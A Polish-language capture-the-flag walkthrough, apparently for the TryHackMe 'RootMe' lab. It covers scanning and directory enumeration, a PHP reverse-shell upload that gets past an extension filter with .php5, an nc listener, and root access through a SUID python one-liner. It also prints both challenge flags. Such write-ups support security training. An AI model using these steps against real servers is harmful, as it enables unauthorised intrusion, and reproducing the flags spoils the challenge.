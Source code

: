 # RootMe
IP=10.10.227.119

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.227.119  
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-09 08:26 EDT
Nmap scan report for 10.10.227.119
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.62 seconds
```

Wykryte zostały dwa porty: 22 (SSH) i 80 (HTTP). Wersja Apache to 2.4.29. Na porcie 22 działa usługa SSH.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![Port80](img/Port80.JPG)

Jest to strona startowa. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.227.119/FUZZ -c 
```

![FFUF](img/FFUF.JPG)

Znajdujemy dwie ciekawe lokalizacje: /panel i /uploads:

![Panel](img/Panel.JPG)

![Uploads](img/Uploads.JPG)

## Eksploitacja

Pobieramy [skrypt](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) reverse-shell'a i próbujemy go wgrać:

![PHP](img/PHP.JPG)

Okazuje się, że pliki z rozszerzeniem .php są zakazane. Spróbujmy obejść to zabezpieczenie stosując [inne](https://book.hacktricks.xyz/pentesting-web/file-upload) rozszerzenie:

![Bypass](img/Bypass.JPG)

Zmieniamy rozszerzenie skryptu na np. .php5 i ponownie wgrywamy:

![Success](img/Success.JPG)

Widzimy, że skrypt został wgrany pomyślnie. Po ustawieniu nasłuchiwania przechodzimy do podstrony /uploads i klikamy na wgrany skrypt:

```
nc -lvnp 4444
```

![Success](img/Success.JPG)

![Nc](img/Nc.JPG)

Otrzymujemy dostęp do serwera przez reverse-shell'a. W pliku /var/www/user.txt znajdujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
THM{y0u_g0t_a_sh3ll}
```

## Zwiększenie poziomu uprawnień

Sprawdzamy, które programy mają ustawione uprawnienie SUID:

```
find / -perm -4000 2>/dev/null
```

![Python](img/Python.JPG)

Program python jest nietypowy. Spróbujmy to wykorzystać za pomocą [gtfobins](https://gtfobins.github.io/gtfobins/python/):

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![Root](img/Root.JPG)

 W pliku /root/root.txt znajdujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
THM{pr1v1l3g3_3sc4l4t10n}
```

Do zobaczenia na kolejnych CTF-ach!
